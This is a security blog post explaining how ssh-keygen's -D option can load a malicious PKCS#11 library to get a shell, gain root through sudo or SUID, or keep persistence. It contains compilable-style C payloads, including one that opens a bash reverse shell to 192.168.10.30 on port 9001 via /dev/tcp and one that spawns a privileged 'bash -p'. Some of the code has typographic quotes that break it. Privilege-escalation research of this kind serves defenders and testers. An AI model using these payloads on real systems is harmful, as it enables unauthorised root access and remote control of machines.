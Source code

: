 ```yaml
---
title: "Abusing ssh-keygen"
summary: “SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.”
date: 2024-11-17
tag: 
    - SSH
    - Security
    - Linux
    - SUID 
    - Persistence
---
```


# Abusing ssh-keygen

SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.

In this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system.

<!-- more -->

In particular, we will abuse a specific functionality of this binary that allows the loading of public keys from a card reader library, this option is the **-D** parameter, its use is as follows: 

```bash
ssh-keygen -D ./lib.so
```

## How to generate the payload

Now that we've explained how to use this function, let's look in more detail at how to generate a loadable payload, for which we'll first need to obtain a version of pkcs11.h . This header file is where we define the data types needed for the function of our library that will call ssh-keygen when using the **-D** parameter. 

In our case, we will go to the Open Smart Card repository and download the version we need from the following URL

[Github Code](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h) 

With this file we will proceed to write a small program in C with the necessary structure to be executed by ssh-keygen, in our case this program will spawn a bash shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Once compiled we can load it as a library as indicated in the introduction. 

## Profit

### Case 1: Sudo SSH-Keygen

Let's take advantage of a scenario where our user has permissions to execute the ssh-keygen command as root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

In this case, instead of using a simple bash call, we will load a reverse shell.

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-c’ , ‘bash -i >& /dev/tcp/192.168.10.30/9001 0>&1’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

As a result, when we load it, we will get a root connection in our listener, we could modify it to run a shell simply as in the example in the theory section 

### Case 2: SSH Keygen SUID

In this scenario we are going to exploit a slightly less common scenario where ssh-keygen has the SUID bit set, in this case to keep the SUID privileges we need to change the library code a bit so that the shell keeps the privileges

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-p’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

Once compiled, we can run the command to load the library and get a shell with the necessary privileges.

## Final Thoughts

As demonstrated, ssh-keygen is a powerful tool that, when misconfigured or misused, can become a significant security risk. The scenarios presented in this article highlight the importance of properly configuring and restricting access to binaries with elevated privileges.

By understanding and proactively managing the capabilities and risks associated with common tools like ssh-keygen, administrators can ensure the integrity and security of their systems. 

!!! note
    Always adopt the principle of least privilege and conduct regular security audits to minimize attack surfaces.
